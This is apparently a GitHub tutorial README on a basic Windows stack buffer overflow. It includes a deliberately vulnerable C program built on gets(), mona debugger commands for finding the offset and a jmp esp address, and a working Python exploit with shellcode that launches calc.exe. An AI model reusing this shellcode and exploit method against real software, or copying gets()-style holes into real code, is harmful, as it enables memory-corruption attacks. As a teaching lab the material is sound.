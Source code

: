 # Basic bufferover

Required software

- python 2.7.x
- Immunity debugger - https://www.immunityinc.com/products/debugger/
- MinGW (gcc) - https://sourceforge.net/projects/mingw-w64/files/Toolchains%20targetting%20Win32/Automated%20Builds/


# Write a program

Write code

```
#include <stdio.h>

int main() {
char str[50];

printf("Enter your name");
gets(str);
printf("Hello %s\n", str);

return 0;
}
```

Compile

```
gcc -m32 overflow.c -o overflow.exe
```

# Load Debugger

load immunity and use the folder or file to open and then locate overflow.exe
at the bottom of the screen set a working directory
```
!mona config -set workingfolder c:\mona\%p
```

open pattern.txt and copy and paste the pattern into your exe
```
!mona pc 100
```

use this as a pattern offset to workout how many junk bites are required in our case 62 bytes are junk
```
!mona po 31634130
```

look for a esp jump command to workout where your payload would be

```
!mona jmp -r esp -m kernel
```

```
Log data, item 24
 Address=76C9FB75
 Message=  0x76c9fb75 (b+0x0013fb75)  : jmp esp |  {PAGE_EXECUTE_READ} [KERNELBASE.dll] ASLR: True, Rebase: True, SafeSEH: True, OS: True, v10.0.17763.1 (C:\WINDOWS\System32\KERNELBASE.dll)
```

# Write the expoilt

- Use python

- 2nd line - 62 junk bytes
- 3rd line - esp jump address input it backwards
- 4th line - exec calc.exe in hex

- 5/6 opens payload and excutes


```
from subprocess import Popen, PIPE
payload = b"\xc4"*62
payload += b"\x75\xFB\xC9\x76"
payload += (b"\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x64\x8b\x7b\x30\x8b\x7f"
b"\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b\x77\x20\x8b\x3f\x80\x7e\x0c\x33\x75\xf2\x89\xc7"
b"\x03\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x89\xdd\x8b\x34\xaf\x01\xc6"
b"\x45\x81\x3e\x43\x72\x65\x61\x75\xf2\x81\x7e\x08\x6f\x63\x65\x73\x75\xe9\x8b\x7a"
b"\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9"
b"\xb1\xff\x53\xe2\xfd\x68\x63\x61\x6c\x63\x89\xe2\x52\x52\x53\x53\x53\x53\x53\x53\x52\x53\xff\xd7")

p = Popen(["overflow.exe"], stdout=PIPE, stdin=PIPE)
p.communicate(payload)
```

